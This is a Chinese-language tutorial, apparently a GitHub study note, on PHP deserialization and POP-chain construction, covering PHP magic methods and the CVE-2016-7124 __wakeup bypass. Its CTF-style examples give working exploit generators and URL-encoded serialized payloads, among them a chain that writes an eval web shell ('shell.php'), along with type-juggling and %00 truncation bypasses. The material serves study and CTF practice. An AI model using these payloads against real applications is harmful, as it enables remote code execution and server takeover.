



# POP

---

**相关文章 & Source & Reference**
- [PHP对象注入之pop链构造](https://www.mi1k7ea.com/2019/05/04/PHP%E5%AF%B9%E8%B1%A1%E6%B3%A8%E5%85%A5%E4%B9%8Bpop%E9%93%BE%E6%9E%84%E9%80%A0/)
- [萌新入门pop链](https://bkfish.gitee.io/2020/01/04/pop%E9%93%BE/)

---

## 什么是 POP

面向属性编程（Property-Oriented Programing） 用于上层语言构造特定调用链的方法，与二进制利用中的面向返回编程（Return-Oriented Programing）的原理相似，都是从现有运行环境中寻找一系列的代码或者指令调用，然后根据需求构成一组连续的调用链。在控制代码或者程序的执行流程后就能够使用这一组调用链来执行一些操作。

ROP 链构造中是寻找当前系统环境中或者内存环境里已经存在的、具有固定地址且带有返回操作的指令集

POP 链的构造则是寻找程序当前环境中已经定义了或者能够动态加载的对象中的属性（函数方法），将一些可能的调用组合在一起形成一个完整的、具有目的性的操作。

二进制中通常是由于内存溢出控制了指令执行流程，而反序列化过程就是控制代码执行流程的方法之一，前提：进行反序列化的数据能够被用户输入所控制。

**案例**

一般的序列化攻击都在 PHP 魔术方法中出现可利用的漏洞，因为自动调用触发漏洞，但如果关键代码没在魔术方法中，而是在一个类的普通方法中。这时候就可以通过构造 POP 链寻找相同的函数名将类的属性和敏感函数的属性联系起来。因为 PHP 反序列化可以控制类属性，无论是 private 还是 public。

test.php
```php
<?php
class test {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new normal();
    }

    function __destruct() {
        $this->ClassObj->action();
    }
}

class normal {
    function action() {
        echo "hello";
    }
}

class evil {
    private $data;
    function action() {
        eval($this->data);
    }
}

unserialize($_GET['d']);
```

test 这个类本来是调用 normal 类的，而 normal 类中含有 `action()` 方法用于显示字符串，但是现在 `action()` 方法在 evil 类里面也有，所以可以构造 pop 链，调用 evil 类中的 `action()` 方法。

crack.php
```php
<?php

class test {
    protected $ClassObj;

    function __construct() {
        $this->ClassObj = new evil();
    }

}
class evil {
    private $data="phpinfo();";
}
$a=new test();
echo urlencode(serialize($a));
?>
```

```
O%3A4%3A%22test%22%3A1%3A%7Bs%3A11%3A%22%00%2A%00ClassObj%22%3BO%3A4%3A%22evil%22%3A1%3A%7Bs%3A10%3A%22%00evil%00data%22%3Bs%3A10%3A%22phpinfo%28%29%3B%22%3B%7D%7D
```



---

## 魔术方法

php常见的魔术方法:
* __construct() 当一个对象创建时被调用
* __destruct() 当一个对象销毁前被调用
* __sleep() 使用serialize时触发
* __wakeup() 将在反序列化之后立即被调用,使用unserialize时触发
* __toString() 当一个对象被当做字符串使用时被调用
* __get() 用于从不可访问的属性读取数据
* __set() 用于将数据写入不可访问的属性
* __isset() //在不可访问的属性上调用isset()或empty()触发
* __unset() //在不可访问的属性上使用unset()时触发
* __invoke() 调用函数的方式调用一个对象时的回应方法
* __call() 在对象上下文中调用不可访问的方法时触发
* __callStatic() 调用类不存在的静态方式方法时执行。

### __call()

PHP5 的对象新增了一个专用方法 `__call()`，这个方法用来监视一个对象中的其它方法。如果你试着调用一个对象中不存在或被权限控制中的方法，`__call` 方法将会被自动调用。

```php
<?php
class AAAA
{
     private function a()
     {
        echo "a";
     }
     public function __call($name,$arguments)
     {
        echo "调用不存在的方法名是:".$name.'<br>参数是:';
        print_r($arguments);
        echo '<br>';
     }
}
$ins=new AAAA;
$ins->b([1,2,3]);
?>
```

输出
```
调用不存在的方法名是:b
参数是:Array ( [0] => Array ( [0] => 1 [1] => 2 [2] => 3 ) )
```

### __invoke()

当尝试以调用函数的方式调用一个对象时，`__invoke()` 方法会被自动调用。本特性只在 PHP 5.3.0 及以上版本有效
```php
<?php
class CallableClass
{
    function __invoke($x) {
        var_dump($x);
    }
}
$obj = new CallableClass;
$obj(5);
var_dump(is_callable($obj));
?>
```

输出
```
int(5)
bool(true)
```

### __toString()

`__toString()` 方法用于一个类被当成字符串时应怎样回应。例如 echo $obj; 应该显示些什么。此方法必须返回一个字符串，否则将发出一条 `E_RECOVERABLE_ERROR` 级别的致命错误。
```php
<?php
// Declare a simple class
class TestClass
{
    public $foo;

    public function __construct($foo)
    {
        $this->foo = $foo;
    }

    public function __toString() {
        return $this->foo;
    }
}

$class = new TestClass('Hello');
echo $class;
?>
//输出 Hello
```

需要指出的是在 PHP 5.2.0 之前，`__toString()` 方法只有在直接使用于 echo 或 print 时才能生效。PHP 5.2.0 之后，则可以在任何字符串环境生效（例如通过 `printf()`，使用 %s 修饰符），但不能用于非字符串环境（如使用 %d 修饰符）。自 PHP 5.2.0 起，如果将一个未定义 `__toString()` 方法的对象转换为字符串，会产生 E_RECOVERABLE_ERROR 级别的错误。

### __wakeup()

`__wakeup()` 是在反序列化操作中起作用的魔术方法，当 unserialize 的时候，会检查时候存在 `__wakeup()` 函数，如果存在的话，会优先调用 `__wakeup()` 函数。

```php
<?php

class xctf{
	public $flag = '111';
	public function __wakeup(){
		print("this is __wakeup()");
	}
}

$test = new xctf();
$t = serialize($test);
unserialize($t);

?>
//输出this is __wakeup()
```

#### CVE-2016-7124 (wakeup失效)

如果存在 `__wakeup` 方法，调用 `unserilize()` 方法前则先调用 `__wakeup()` 方法，但是序列化字符串中表示对象属性个数的值大于真实的属性个数时会跳过 `__wakeup()` 的执行

`__wakeup()` 函数漏洞就是与对象的属性个数有关，如果序列化后的字符串中表示属性个数的数字与真实属性个数一致，那么 i 就调用 `__wakeup()` 函数，如果该数字大于真实属性个数，就会绕过 `__wakeup()` 函数。

漏洞影响版本：PHP5 < 5.6.25 PHP7 < 7.0.10

```php
<?php

  class test{
    public $name = 'edd1e';

		public function __destruct() {
			echo 'i am __destruct()</br>';
		}

		public function __wakeup() {
			echo 'i am __wakeup()</br>';
		}
  }

	//$a = new test();
	//echo serialize($a);
	//    O:4:"test":1:{s:4:"name";s:5:"edd1e";}
	$s = 'O:4:"test":1:{s:4:"name";s:5:"edd1e";}';
	unserialize($s);
?>
```

当反序列化字符串正常时 输出：
```
i am __wakeup()
i am __destruct()
```

当对象属性个数的值大于真实的属性个数时
```
$s = 'O:4:"test":2:{s:4:"name";s:5:"edd1e";}';
```

并没有执行 `__wakeup()` 方法 `__wakeup()` 失效

tips：字符串中 O:4 与 O:+4 效果相同 可以进行绕过

### __construct(),__destruct()

同c++的构造函数和析构函数

### __clone()

克隆对象时被调用。如：$t=new Test()，$t1=clone $t;

### __sleep()

`serialize()` 函数会检查类中是否存在一个魔术方法 `__sleep()` 。如果存在，则该方法会优先被调用，然后才执行序列化操作。

---

## 例题0

```php
<?php
class start_gg
{
        public $mod1;
        public $mod2;
        public function __destruct()
        {
                $this->mod1->test1();
        }
}
class Call
{
        public $mod1;
        public $mod2;
        public function test1()
    {
            $this->mod1->test2();
    }
}
class CallFunc
{
        public $mod1;
        public $mod2;
        public function __call($test2,$arr)
        {
                $s1 = $this->mod1;
                $s1();
        }
}
class InvokeFunc
{
        public $mod1;
        public $mod2;
        public function __invoke()
        {
                $this->mod2 = "字符串拼接".$this->mod1;
        }
}
class ToStringFunc
{
        public $str1;
        public $str2;
        public function __toString()
        {
                $this->str1->get_flag();
                return "1";
        }
}
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."flag{test}";
        }
}
$a = $_GET['string'];
unserialize($a);
?>
```

首先要利用 class GetFlag 中的 get_flag, 所以我们只要有一个 ToStringFunc 类的实例当字符串来使用

InvokeFunc 中使用了字符串拼接可以利用，所以我们只要有一个 InvokeFunc 类的实例，并且 str1 要是 ToStringFunc ，并且这个类要当函数使用

CallFunc 中刚好有一个 `$s1()`; 函数调用，所以我们只要有一个 CallFunc 类的实例，并且 mod1 要是 InvokeFunc，并且要调用一次不存在的函数

Call 中刚好有一个 test2 函数调用，并且不存在，所以我们只要一个 Call 的类的实例，并且 mod1 要是 CallFunc

最后需要一个自动函数调用的方法，刚好 start_gg 有一个析构函数，所以我们只要一个 startgg 类的实例，并且 mod1 要是 call

注意 : protected $ClassObj = new evil(); 是不行的，还是通过 `__construct` 来实例化。

在序列化之前只调用 `__construct` 函数，并且序列化将对象转换成字符串，仅保留对象里的成员变量，不保留函数方法。

所以构造的时候只要记录我们需要的属性+构造函数即可
```php
<?php
class GetFlag
{
        public function get_flag()
        {
                echo "flag:"."flag{Test}";
        }
}
class ToStringFunc
{
        public $str1;
        public function __construct()
        {
                $this->str1=new GetFlag();
        }
}
class InvokeFunc
{
        public $mod1;
        public function __construct()
        {
                $this->mod1= new ToStringFunc();

        }
}
class CallFunc
{
        public $mod1;
        public function __construct()
        {
                $this->mod1=new InvokeFunc();
        }
}
class Call
{
        public $mod1;
        public function __construct()
        {
                $this->mod1=new CallFunc();
        }
}
class start_gg
{
        public $mod1;
        public function __construct()
        {
                $this->mod1=new Call();
        }
}

$b = new start_gg;      //构造start_gg类对象$b
echo urlencode(serialize($b));
?>
```

```
O%3A8%3A%22start_gg%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A4%3A%22Call%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A8%3A%22CallFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A10%3A%22InvokeFunc%22%3A1%3A%7Bs%3A4%3A%22mod1%22%3BO%3A12%3A%22ToStringFunc%22%3A1%3A%7Bs%3A4%3A%22str1%22%3BO%3A7%3A%22GetFlag%22%3A0%3A%7B%7D%7D%7D%7D%7D%7D
```

---

## 例题1

```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
  function format($txt) {
    foreach ($this->filters as $filter) {
      $txt = $filter->filter($txt);
    }
    $txt = str_replace('\n', $this->endl, $txt);
    return $txt;
  }
};
class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
  function writeLog($txt) {
    $txt = $this->format->format($txt);
    //TODO: Modify the address here, and delete this TODO.
    file_put_contents("E:\\www\\pop\\" . $this->filename, $txt, FILE_APPEND);
  }
};
class Logger {
  protected $logwriter;
  function __construct($writer) {
    $this->logwriter = $writer;
  }
  function log($txt) {
    $this->logwriter->writeLog($txt);
  }
};
class Song {
  protected $logger;
  protected $name;
  protected $group;
  protected $url;
  function __construct($name, $group, $url) {
    $this->name = $name;
    $this->group = $group;
    $this->url = $url;
    $fltr = new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");
    $this->logger = new Logger(new LogWriter_File("song_views", new LogFileFormat(array($fltr), "\n")));
  }
  function __toString() {
    return "<a href='" . $this->url . "'><i>" . $this->name . "</i></a> by " . $this->group;
  }
  function log() {
    $this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
  }
  function get_name() {
      return $this->name;
  }
}
class Lyrics {
  protected $lyrics;
  protected $song;
  function __construct($lyrics, $song) {
    $this->song = $song;
    $this->lyrics = $lyrics;
  }
  function __toString() {
    return "<p>" . $this->song->__toString() . "</p><p>" . str_replace("\n", "<br />", $this->lyrics) . "</p>\n";
  }
  function __destruct() {
    $this->song->log();
  }
  function shortForm() {
    return "<p><a href='song.php?name=" . urlencode($this->song->get_name()) . "'>" . $this->song->get_name() . "</a></p>";
  }
  function name_is($name) {
    return $this->song->get_name() === $name;
  }
};
class User {
  static function addLyrics($lyrics) {
    $oldlyrics = array();
    if (isset($_COOKIE['lyrics'])) {
      $oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
    }
    foreach ($lyrics as $lyric) $oldlyrics []= $lyric;
    setcookie('lyrics', base64_encode(serialize($oldlyrics)));
  }
  static function getLyrics() {
    if (isset($_COOKIE['lyrics'])) {
      return unserialize(base64_decode($_COOKIE['lyrics']));
    }
    else {
      setcookie('lyrics', base64_encode(serialize(array(1, 2))));
      return array(1, 2);
    }
  }
};
class Porter {
  static function exportData($lyrics) {
    return base64_encode(serialize($lyrics));
  }
  static function importData($lyrics) {
    return serialize(base64_decode($lyrics));
  }
};
class Conn {
  protected $conn;
  function __construct($dbuser, $dbpass, $db) {
    $this->conn = mysqli_connect("localhost", $dbuser, $dbpass, $db);
  }
  function getLyrics($lyrics) {
    $r = array();
    foreach ($lyrics as $lyric) {
      $s = intval($lyric);
      $result = $this->conn->query("SELECT data FROM lyrics WHERE id=$s");
      while (($row = $result->fetch_row()) != NULL) {
        $r []= unserialize(base64_decode($row[0]));
      }
    }
    return $r;
  }
  function addLyrics($lyrics) {
    $ids = array();
    foreach ($lyrics as $lyric) {
      $this->conn->query("INSERT INTO lyrics (data) VALUES (\"" . base64_encode(serialize($lyric)) . "\")");
      $res = $this->conn->query("SELECT MAX(id) FROM lyrics");
      $id= $res->fetch_row(); $ids[]= intval($id[0]);
    }
    echo var_dump($ids);
    return $ids;
  }
  function __destruct() {
    $this->conn->close();
    $this->conn = NULL;
  }
};

if (isset($_GET['cmd'])) {
  unserialize($_GET['cmd']);
}else{
  highlight_file(__FILE__);
}
?>
```

第一步查找哪些类方法的 `unserialize()` 函数可控,发现定义的类方法中有 3 处存在调用 `unserialize()` 函数

User 2 处,Conn 1处

先看 Conn
```php
  function getLyrics($lyrics) {
    $r = array();
    foreach ($lyrics as $lyric) {
      $s = intval($lyric);
      $result = $this->conn->query("SELECT data FROM lyrics WHERE id=$s");
      while (($row = $result->fetch_row()) != NULL) {
        $r []= unserialize(base64_decode($row[0]));
      }
    }
    return $r;
  }
```

参数在 sql 查询的结果中获取,无法直接控制,换 User

```php
  static function addLyrics($lyrics) {
    $oldlyrics = array();
    if (isset($_COOKIE['lyrics'])) {
      $oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
    }
    foreach ($lyrics as $lyric) $oldlyrics []= $lyric;
    setcookie('lyrics', base64_encode(serialize($oldlyrics)));
  }
  static function getLyrics() {
    if (isset($_COOKIE['lyrics'])) {
      return unserialize(base64_decode($_COOKIE['lyrics']));
    }
    else {
      setcookie('lyrics', base64_encode(serialize(array(1, 2))));
      return array(1, 2);
    }
  }
```

参数通过 cookie 传入,外部可控

第二步, 查找可利用的魔术函数有哪些. 除去构造方法 `__construct()` 后，发现有个析构函数 `__destruct()` 中调用了该类成员变量的 `log()` 方法：
```php
class Lyrics {
  protected $lyrics;
  protected $song;
  function __construct($lyrics, $song) {
    $this->song = $song;
    $this->lyrics = $lyrics;
  }
  function __toString() {
    return "<p>" . $this->song->__toString() . "</p><p>" . str_replace("\n", "<br />", $this->lyrics) . "</p>\n";
  }
  function __destruct() {
    $this->song->log();
  }
  function shortForm() {
    return "<p><a href='song.php?name=" . urlencode($this->song->get_name()) . "'>" . $this->song->get_name() . "</a></p>";
  }
  function name_is($name) {
    return $this->song->get_name() === $name;
  }
};
```

看到 song 变量可以通过构造方法直接赋值。
```php
class Song {
  protected $logger;
  protected $name;
  protected $group;
  protected $url;
  function __construct($name, $group, $url) {
    $this->name = $name;
    $this->group = $group;
    $this->url = $url;
    $fltr = new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");
    $this->logger = new Logger(new LogWriter_File("song_views", new LogFileFormat(array($fltr), "\n")));
  }
  function __toString() {
    return "<a href='" . $this->url . "'><i>" . $this->name . "</i></a> by " . $this->group;
  }
  function log() {
    $this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
  }
  function get_name() {
      return $this->name;
  }
}
```

接下来看看哪些类含有 `log()` 方法：

Logger,Song

发现 Logger 类和 Song 类中都有 `log()` 方法，看明显看出 Logger 类的 `log()` 方法疑似可利用，因为其中调用了该类 logwriter 成员变量的 `writeLog()` 方法。
```php
class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
  function writeLog($txt) {
    $txt = $this->format->format($txt);
    //TODO: Modify the address here, and delete this TODO.
    file_put_contents("E:\\www\\pop\\" . $this->filename, $txt, FILE_APPEND);
  }
};
```

`writeLog()` 方法，发现只有 LogWriter_File 类中定义了，并且其功能是想指定 Web 目录路径上写文件,但是其调用了 `format()` 方法对参数进行格式化处理，`format()` 方法的定义在 LogFileFormat 类中：

```php
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
  function format($txt) {
    foreach ($this->filters as $filter) {
      $txt = $filter->filter($txt);
    }
    $txt = str_replace('\n', $this->endl, $txt);
    return $txt;
  }
};
```

其中又调用了 `filter()` 方法过滤内容，然后调用 `str_replace()` 方法将换行符替换成 endl 成员变量的值。

`filter()` 方法是定义在 OutputFilter 类中，作用是使用成员变量 matchPattern 的值作为 pattern 进行正则匹配过滤：
```php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
```

看到这里，调用了 `preg_replace()`，当 PHP 版本不高于 5.5 时可以用正则的 /e 模式来执行 php 代码。

这里我们用 LogWriter_File 写 shell文件
```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
};

class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
};

class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
};

class Logger {
  protected $logwriter;
  function __construct($writer) {
    $this->logwriter = $writer;
  }
};

class Lyrics {
  protected $lyrics;
  protected $song;
  function __construct($lyrics, $song) {
    $this->song = $song;
    $this->lyrics = $lyrics;
  }
};

$arr = array(new OutputFilter("//", "<?php @eval(\$_GET['cmd']);?>"));
$obj1 = new LogFileFormat($arr, '\n');
$obj2 = new LogWriter_File("shell.php", $obj1);
$obj3 = new Logger($obj2);
$obj = new Lyrics("test", $obj3);
echo urlencode(serialize($obj));
?>
```

```
O%3A6%3A%22Lyrics%22%3A2%3A%7Bs%3A9%3A%22%00%2A%00lyrics%22%3Bs%3A4%3A%22test%22%3Bs%3A7%3A%22%00%2A%00song%22%3BO%3A6%3A%22Logger%22%3A1%3A%7Bs%3A12%3A%22%00%2A%00logwriter%22%3BO%3A14%3A%22LogWriter_File%22%3A2%3A%7Bs%3A11%3A%22%00%2A%00filename%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A9%3A%22%00%2A%00format%22%3BO%3A13%3A%22LogFileFormat%22%3A2%3A%7Bs%3A10%3A%22%00%2A%00filters%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A12%3A%22OutputFilter%22%3A2%3A%7Bs%3A15%3A%22%00%2A%00matchPattern%22%3Bs%3A2%3A%22%2F%2F%22%3Bs%3A14%3A%22%00%2A%00replacement%22%3Bs%3A28%3A%22%3C%3Fphp+%40eval%28%24_GET%5B%27cmd%27%5D%29%3B%3F%3E%22%3B%7D%7Ds%3A7%3A%22%00%2A%00endl%22%3Bs%3A2%3A%22%5Cn%22%3B%7D%7D%7D%7D
```




---

## 例题2

```php
<?php
    //flag is in flag.php
    error_reporting(0);

    class oops {
        protected $oop;

        function __construct() {
            $this->oop = new a();
        }

        function __destruct() {
            $this->oop->action();
        }
    }

    class a {
        function action() {
            echo "Hello World!";
        }
    }

    class b {
        private $file;
        private $token;
        function action() {
            if ((ord($this->token)>47)&(ord($this->token)<58)) {
                echo "token can't be a number!";
                return ;
            }
            if ($this->token==0){
                if (!empty($this->file) && stripos($this->file,'..')===FALSE
                && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                    include($this->file);
                    echo $flag;
                }
            }else{
                echo "Oops...";
            }
        }
    }

    class c {
        private $cmd;
        private $token;
        function execcmd(){
            if ((ord($this->token)>47)&(ord($this->token)<58)) {
                echo "token can't be a number!";
                return ;
            }
            if ($this->token==0){
                if (!empty($this->cmd)){
                    system($this->cmd);
                }
            }else{
                echo "Oops...";
            }
        }
    }

    if (isset($_GET['a']) and isset($_GET['b'])) {
        $a=$_GET['a'];
        $b=$_GET['b'];
        if (stripos($a,'.')) {
            echo "You can't input '.' !";
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="HelloWorld!" and strlen($b)>5 and eregi("666".substr($b,0,1),"6668") and substr($b,0,1)!=8){
            if (isset($_GET['c'])){
                echo "get c 2333......<br>";
                unserialize($_GET['c']);
            } else {
                echo "cccccc......";
            }
        } else {
            echo "Oh no......";
        }
    } else {
        show_source(__FILE__);
    }

?>
```

考验2部分,1是弱类型绕过,2是反序列化pop链构造

先看弱类型绕过
```php
    if (isset($_GET['a']) and isset($_GET['b'])) {
        $a=$_GET['a'];
        $b=$_GET['b'];
        if (stripos($a,'.')) {
            echo "You can't input '.' !";
            return ;
        }
        $data = @file_get_contents($a,'r');
        if ($data=="HelloWorld!" and strlen($b)>5 and eregi("666".substr($b,0,1),"6668") and substr($b,0,1)!=8){
            if (isset($_GET['c'])){
                echo "get c 2333......<br>";
                unserialize($_GET['c']);
            } else {
                echo "cccccc......";
            }
        } else {
            echo "Oh no......";
        }
    } else {
        show_source(__FILE__);
    }
```

* a 不能包含 `.`,禁止了跨目录
* 调用 file_get_contents 函数读取名为 a 的文件内容,且要等于 `HelloWorld!`
* b 长度大于5,第一个字符紧接着拼接在”666”字符串后面要能正则匹配上”6668”字符串，且限定第一个字符不能为8

**a 的绕过方法**

`file_get_contents()` 函数支持 php 伪协议，这里我们可以使用 php://input，然后再 POST 字符串”HelloWorld!” 即可绕过

**b 的绕过方法**

参数第一个字符不能为 8，但是缺陷在于使用正则匹配，我们这里可以使用 %00 截断作为参数 b 的起始字符，截断掉后面的字符从而实现 666 和 6668 能够匹配成功实现绕过，剩下的字符拼够 5 个字节以上即可

**构造 pop 链**

c 参数进行 `unserialize()`

找魔术方法, oops 中存在 __construct 和 __destruct

分析下 oops
* 成员变量 oop，在 `__construct()` 函数中初始化为 a 类的实例；
* `__construct()` 函数，初始化成员变量 oop 为 a 类的实例；
* `__destruct()` 函数，调用 oop 实例的 `action()` 方法；

action 方法在 a和b中都存在
* a 类只有输出 Hello World 的 `action()` 方法，无漏洞点；
* b 类的 `action()` 方法，含有成员变量 file 和 token，绕过 token 校验之后就过滤 file 的跨目录，然后直接输出目标文件的 flag 变量值；

能利用的只有b类,接下来还要绕过 token
```php
            if ((ord($this->token)>47)&(ord($this->token)<58)) {
                echo "token can't be a number!";
                return ;
            }
            if ($this->token==0){
```

先判断 token 是否为数字字符，不是才会往下判断 token 的值是否为 0，为 0 则进入关键代码。但是这里判断是否为 0 的符号是 == , 存在弱类型绕过，当我们输入一个字符如 a 时，a==0 是成立的。

下面构造 pop 链
```php
<?php

    class oops {
        protected $oop;

        function __construct() {
            $this->oop = new b();
        }

    }


    class b {
        private $file="flag.php";
        private $token="a";
    }

$obj = new oops;
echo urlencode(serialize($obj));
```


